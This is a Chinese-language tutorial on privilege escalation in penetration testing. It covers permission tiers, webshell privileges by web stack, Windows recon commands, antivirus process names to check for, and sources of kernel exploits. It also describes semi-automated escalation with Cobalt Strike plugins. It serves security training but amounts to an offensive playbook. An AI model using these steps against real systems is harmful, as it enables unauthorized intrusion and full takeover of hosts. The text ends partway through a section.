# 1. 权限提升介绍

这里需要我们了解的权限提升大概分为：后台权限，网站权限，数据本权限。接口权限，系统权限。域控权限等。

## 1.1. 权限说明

- 后台权限:SQL注入,致据库备份泄露，默认或弱口令等获取帐号密码进入。
- 网站权限:后台提升至网站权限，RCE或文件操作类、反序列化等漏洞直达shell。
- 数据库权限:SQL注入数据库备份泄露。默认或弱口令等进入或网站权限获取后转入。
- 接口权限:SQL注入,数据库备份泄露，源码泄漏，配置不当等或网站权限获取后转入。
- 系统权限:高危系统漏洞直达或网站权限提升转入、数据库权限提升转入。第三方转入等。
- 域控权限:高危系统漏洞直达或内网横向渗透转入，域控其他服务安全转入等。

## 1.2. 权限提升后操作

需要我们了解权限提升后能够做什么事情，这里针对不同的权限，能够做的事情也是不同的。

- 后台权限：常规WEB界面文章分类等操作,后台功能可操作类。
- 网站权限:查看或修改程序源代码，可以进行网站或应用的配置文件读取（接口配置信息，数据库配置信息等)，还能收集服务器操作系统相关的信息，为后续系统提权做准备。
- 数据库权限:操作数据库的权限，数据库的增删改等，源码或配置文件泄漏，也可能是网站权限(webshell)进行的数据库配詈文件读取获得。也可以作为提升系统权限手段。
- 接口权限:后台或网站权限后的获取途径:后台（修改配置信息功能点)，网站权限(查看的配置文件获取)，具体可以操作的事情大家自己想想。
- 系统权限:如同在你自己操作自己的电脑一样。
- 域控权限:如同在你自己操作自己的虚拟机一样。

## 1.3. 权限提升的意义

这里的意义就是实现你想要达到的效果，例如当你获取到一个服务器后，你想要开启远程桌面，但是你的权限不够，那么你就需要对你的权限进行提示，以便实现开启远程桌面的能力，这就是权限提示的意义。

同时后期也需要经常使用到权限提升，当然权限提升前提就需要得到一个主机。

## 1.4. 权限提升整体流程

后台权限>web权限>系统权限>域控权限

这里简要说一下，首先需要获取到后台权限，然后获取到web权限，这里的web权限也就是获取到网站的权限，其次，当获取到web权限后通过一系列方式获取到系统权限，而域控权限，可能在部分网络结构中没有域控的概念，那么当你获取到系统权限后，基本上就结束了，但是可能在有些网络结构中比较关注域控，那么你还需要进一步的去获取域控权限。

## 1.5. 权限获取方式

通常来说，不同的权限对应的获取方式也不同，当然也有部分权限获取的方式是一样的。同时在权限获取的时候有些权限获取是不确定在流程中哪一步中获取到的，比如接口权限、数据库权限、

### 1.5.1. 特殊类型权限获取流程

这里的特殊类型的权限获取，主要就说的是接口权限、数据库权限这类的获取，通常像后台权限、web权限获取都是有流程性的，而且这类是没有流程性的，例如：

- 数据库权限：数据库权限可能在获取后台之前就获取到了，比如，通过扫描开放的端口，然后使用弱口令进去了，这种情况就属于在后台权限获取之前，而如果是通过sql注入获取到账号密码，那么就是在后台之后，所以说不定。
- 接口权限：基本上也是这样的，可能在之前就获取了，也有可能在之后获取。

### 1.5.2. 普通类型权限获取流程

平台类型权限获取，就是通常来说，都是这样的进行获取的，通常来说，不是必然.......

- 后台权限获取方式：弱口令、sql注入、数据泄露等。
- web权限获取方式：插件应用、数据库、中间件、网站源码后台获取。
- 系统权限获取方式(Windows)：溢出漏洞、数据库、第三方软件等。

# 2. 中间件语言类权限差异

## 2.1. 常见的语言

### 2.1.1. JSP权限

这里我们执行一个id后，显示的是root权限，如果想了解id这个命令是什么意思，可以去学一下Linux系统权限。这里网站是由jsp搭建的，这里需要注意jsp、java搭建的站点在连接上去后都是管理员权限，这是特性，不需要提权，直接就是系统权限。



### 2.1.2. PHP权限

#### 2.1.2.1. Linux中PHP权限

这里执行完是一个普通账户权限，并非是root权限，而这里是一步一步搭建的，就会按照软件上自己配置设定的权限。而这里的权限就只是一个普通用户权限，无法查询其它的内容，只能查看当前软件产生的目录也就是网站目录。



#### 2.1.2.2. Windows中PHP权限

这里同样也是一个普通账户权限，并非是Windows系统中最高权限，这里需要注意，如果是直接使用类似phpstudy这个集成环境搭建的网站就会继承搭建人的权限。

而这里想看什么就能看什么内容，因为权限够的，相当于就是本地管理员权限。



### 2.1.3. ASP权限

这里获取到的权限是网络服务权限，也并非是Windows系统中最高权限，这里也是需要提权的。



### 2.1.4. ASPX权限

同样这里获取到的权限是网络服务权限，也并非是Windows系统中最高权限，这里也是需要提权的。



## 2.2. 权限划分

### 2.2.1. Linux

管理员UID为0：系统管理员。

系统用户UID为1-999：Linux中设置的系统用户。

普通用户UID为1000开始：由管理员创建用于日常工作的用户。

### 2.2.2. Windows

用户及用户组：system、Administrator、user、guest等。

## 2.3. 注意点

这里不代表名称不是root或者administrator就不是管理权限，因为在这些系统中会存在一些组的原因，当管理员把账户添加进入管理员组中，那么就能够执行管理员权限。

同时在Linux中是没预留账户，直接会给你root账户，而Windows系统中只会给你一个administrator权限，Windows系统会预留一个system账户，这个账户和Linux中root账户是一样的都是最高权限。

所以在后面的权限提升的时候，我们都需要讲账户提升至最高权限才能想干嘛干嘛。

# 3. 后台权限与web权限提升

关于这里不会过多的赘述，因为在web漏洞方面都已经提到过了，不过都需要文件上传或者进行代码执行，讲shell写入，如果这个都过不去，那么后续的提升肯定是困难的，甚至直接就是无法操作。

当然也有一些网站后台功能点少，没有办法进行shell，那么也同样，确实无法获取权限。

## 3.1. 后台权限提升

关于后台权限提升这里，多数都是通过弱口令，或者sql注入获取，这里我就不赘述了，这类也是最基础的，同时也的最需要破解的，通常来说，如果破解不了后台就很难获取web权限。

当然不是说只有获取后台权限才能获取web权限，也可以通过web权限获取后台权限，不过这类都需要基于类似先获取数据库权限才能够进行操作。

当然遇到一个程序如果无思路，可以通过先搜索相关的程序名称拿shell的资料，网上一般有很多这里的操作。

## 3.2. web权限提升

关于web权限提升方式，可以通过之前学过的，例如数据库备份泄露、账户密码、中间件漏洞、cms源码漏洞等均可以获取web权限，包括暴力破解等，都可以对web的权限进行提升，简单来说，web权限提升其实就是获取网站管理权限。

web权限提升获取，其实还是有很多方式的，这里只是一些常见的方式，如果还是没有思路，最简单的方式就是搜资料！！搜资料！！搜资料！！

当然web权限提升不单单可以通过这些方式，还可以通过数据库弱口令获取到数据库密码，例如在部分网站中会存在phpmyadmin的数据库管理平台，网上有很多这个平台获取权限的方式，这里就不说了，当获取到这个权限后，那么就可以写入shell，通过webshell管理软件连接上去，翻目录通常就能找到后台密码。

这里多数就是实现数据库权限提升到web权限提升的跨域。



但是这里不单单只有数据库权限跨域到web权限，也会存在web权限跨域到数据库权限。那么web权限也可以通过第三方插件或者第三方软件的漏洞获取web权限，然后通过连接shell，然后在网站目录中寻找源码，通常就能够寻找到数据库的账户密码。



# 4. Windows提权

Windows提权大概有三个方向：溢出提权、数据库提权、第三方软件提权、错误的系统配置提权、组策略首选项提权、窃取令牌提权、bypassuac提权，第三方软件/服务提权，WEB中间件漏洞提权等。

如果遇到无法执行命令的话，可以试着上传cmd.exe文件之可执行的目录下。

## 4.1. Windows提权常见步骤

### 4.1.1. 信息收集

信息收集》操作系统版本》系统位数》漏洞补丁》杀软防护》网络》当前权限等信息。

#### 4.1.1.1. 常见命令

```text
systeminfo  查询系统信息
hostname    主机名
net user    查看用户信息
netstat -ano|find "3389"   查看服务pid号
wmic os get caption        查看系统名
wmic qfe get Description,HotFixID,InstalledOn   查看补丁信息
wmic product get name,version   查看当前安装程序
wmic service list brief   查询本机服务
wmic process list brief   查询本机进程
net share   查看本机共享列表
netsh firewall show config  查看防火墙配置
```

#### 4.1.1.2. 常见杀软程序名称

```text
360sd.exe     360杀毒
360tray.exe   360实时保护
ZhuDongFangYu.exe   360主动防御
KSafeTray.exe 金山卫士
SafeDogUpdateCenter.exe   安全狗
McAfee McShield.exe   McAfee
egui.exe    NOD32
AVP.exe     卡巴斯基
avguard.exe  小红伞
bdagent.exe  BitDefender
RavMonD.exe  瑞星杀毒
QQPCRTP.exe  QQ电脑管家
hipstray.exe 火绒杀毒
```

## 4.2. 溢出提权

基于补丁》系统版本》位数来筛选可用溢出漏洞EXP。

### 4.2.1. 溢出提权介绍

此提权方法是利用系统本身存在的一些系统内核溢出漏洞，但未曾打相应的补丁，攻击者通过对比systeminfo信息中的补丁信息来查找缺失的补丁号，通过缺失补丁号对照相应的系统版本查找对应可以提权提升的exp。

不过这里需要注意，只要对应的补丁号加上对应的系统的版本的提权exp才可以成功，有时候如果查找到提权exp提权不成功，那么就可以查看是不是系统版本没对应上，且不排除一些提权漏洞利用需要相应的环境。

这里使用Windows10，同时基于已经拿到基础权限，并且通过文件上传连接到Windows10系统上了。

### 4.2.2. 溢出提权三种方式

- 手动提权：手动提权就是基于自己去搜集相关的补丁，然后进行提权。
- CS半自动化提权：上传木马，然后通过一下插件实现半自动化提权。
- MSF全自动提权：MSF就是通过内置的一些功能，实现全自动提权。

## 4.3. 手动溢出提权

关于手动提权这里只能大致说一下整体的提权流程，关于演示，由于环境原因，确实不好进行演示，而且在提权中，不代表找到相应的EXP就一定能够提权成功，在提权过程中可能会遇到很多的困难解决不好，最关键的就是杀毒软件。

### 4.3.1. 上线

这里通过文件上传已经将一句话木马连接上去，并且用户只是一个普通用户，这里的admin是我自己设置的，我们提权需要提到system权限才可以执行我们想要的任何操作。



### 4.3.2. 信息收集

#### 4.3.2.1. 查找补丁信息及版本信息

通过信息收集我们获取到，该系统是一个Windows10 专业版，其实这里就已经将打的补丁显示出来了，只是这里并未进行补丁修补而已，所以没有记录。



#### 4.3.2.2. 查询杀软信息

查看是否存在杀软，也就是运行软件中，看看是否存在相关的杀毒软件，这里我们查询后发现，并没杀毒软件，不过需要注意的是，正常情况下那台服务器没有杀毒软件，而且部分杀毒软件还能够自动识别是否在执行提权操作。



上面是通过手动比较来进行查看是否存在杀软，这里采用在线的杀软比较，确实不存在杀软。

在线杀软查询：https://i.hacking8.com/tiquan/



#### 4.3.2.3. 自动提权可利用EXP编号

这里寻找可利用的exp，注意这里我本地安装的虚拟机我找了好几个都是没有安装任何补丁的，所以提交上去显示也是无法进行比较的。这里就把整个流程都说一下吧，一般情况下手动提权还是比较困难的，而且比较费事。

在进行提权辅助的时候，需要将下面的远程代码执行取消，由于我们只需要进行权限提升，所以我们只查询权限提升的方式，其它的我们不管。

提权EXP识别平台：https://i.hacking8.com/tiquan/

python工具识别：https://github.com/AonCyberLabs/Windows-Exploit-Suggester



当查询相关的可进行权限提升的编号后，会在页面的下发显示出相应的编号，任何去寻找相应的编号的EXP即可。


### 4.3.3. 寻找EXP

寻找EXP是寻找通过之前补丁识别出来的可利用的EXP编号，通过寻找到的EXP然后进行利用，这里我本地也是也不好演示，所以就不演示了，正常相应的EXP找到后，都会存在利用方式的，并且通过截图演示，也看不出效果。

这里还需要注意，寻找到的EXP不代表就一定能够提权成功，因为你不知道编写EXP的人的测试环境是什么情况，比如人家在Windows10 2022H1上能够成功，但是你在2022H2上不一定能够成功，虽然都没安装补丁，但是就会出现这种，提权不了的情况。

下面列举几个寻找EXP的地址。

https://github.com/Ascotbe/Kernelhub/tree/master/Windows

https://github.com/lyshark/Windows-exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/klsfct/getshell

比如这里上面的截图的CVE-2021-1732的EXP，以及在页面的下方都列举出利用的方式。


当然如果说寻找到EXP编号后，在这些地址中并没有可利用的exp信息，那么可以直接在github上搜索即可，可以看到搜索后显示出很多的EXP都可以进行测试。



### 4.3.4. 提权EXP运行方式

- 直接执行exe程序，成功后会打开一个cmd窗口，在新窗口中权限就是system
- 在WebShell中执行exe程序，执行方式为xx.exe whoami，成功后直接执行命令，再修改命令内容，可以执行不同的命令
- 利用MSF等工具
- C++源码，Python脚本，PowerShell脚本等特殊方式

## 4.4. CS半自动化溢出提权

CS半自动提权，简单来说就是当你把文件上传上去后，然后通过CS生成一个后门，将后门上传至服务器中，再使用CS上安装的各类插件来进行半自动化提权。

这里可能不单单使用的是溢出提权，还有可能使用的是其它的提权方式。

这里使用的是Windows2012环境。

CS工具介绍：https://blog.csdn.net/weixin_44268918/article/details/128857998?spm=1001.2014.3001.5501

### 4.4.1. 上线

这里通过CS生成木马上传，并执行，通常来说通过文件上传获取到的权限都比较低，所以在运行木马的时候，也都是普通权限运行，导致木马也就是普通权限，只有当使用管理员启动，才是基本的管理员权限。

这里不用太在意我这个上线就是administrator权限，我们主要目标就是system的权限。



### 4.4.2. 提权插件

这里推荐几个提权插件，这些插件都是经过测试的，像之前手动提权，多多少少存在编写EXP人的和你的环境不同，可能就导致别人能够提权成功，而你无法提权成功的情况。

这些插件都集成了很多的功能，原版CS上的功能很少，基本上就是一个类似MSF的一个图像化工具，当装上插件后，就可以使得CS摇身一变，变成内网大杀器。

梼杌：https://github.com/pandasec888/taowu-cobalt-strike

ladon：https://github.com/k8gege/Aggressor



### 4.4.3. 当前权限

通过输入命令查看，当前权限就是一个普通权限，虽然可能能够执行一些管理员的操作，但是我们需要的是将权限提升到system，这样我们想执行什么命令就能够执行什么命令。



### 4.4.4. 提权操作

#### 4.4.4.1. 选择提权方式

这里使用梼杌进行提权，选择sweetpotato，然后继续提权。

